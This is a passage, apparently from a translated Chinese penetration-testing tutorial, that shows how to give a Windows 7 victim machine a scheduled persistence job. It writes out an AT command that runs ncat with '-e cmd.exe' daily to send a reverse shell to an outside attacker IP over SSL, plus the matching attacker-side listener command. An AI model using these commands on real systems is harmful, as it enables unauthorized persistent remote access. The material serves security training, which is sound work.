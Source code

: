 转到 Windows 7 受害者，我们可以在`Windows`目录中看到该文件：

![](img/778d4198-086b-4d65-94ac-42d33336a070.png)

# 设置 NetCat 客户端

自 WindowsNT3.14 以来，Windows 一直使用命令行工具来运行计划任务。此工具称为`AT`命令。此命令与 Linux 或 UNIX 上可用的`cron`命令非常相似。您可以设置运行任何命令行工具或脚本的时间、日期和次数。因此，`shell`通过与机器的仪表连接进入系统：

```
shell  
```

你现在是受害者。键入以下命令：

```
AT 5:00PM ncat.exe -nv 128.199.190.69 443 -ssl -e cmd.exe  
```

![](img/8b165c75-b0db-46fc-8286-c7a655ad0d07.png)

这将设置每天下午 5:00 运行的作业。它将使用以下变量运行`ncat.exe`可执行文件。正在调用端口`443`上的攻击服务器`128.199.190.69`。`-ssl`标志告诉连接使用 SSL。`-e cmd.exe`标志告诉可执行文件通过连接运行`cmd.exe`可执行文件。

下午 5:00 之前，我们使用各种枢轴登录到我们的邪恶服务器，以监听模式启动`ncat`，等待下午 5:00 到来。

注意，我们在这里连接到`//rogue3`并运行以下命令：

```
ncat -nvlp 443 -ssl  
```

`-n`标志告诉系统不要使用 DNS。`-v`告诉系统将输出设置为详细，以便您可以看到输入和输出。`-l`让 Ncat 听。`-p`告知 Ncat 在端口`443`上监听，`-ssl`告知 Ncat 使用 SSL 加密会话：
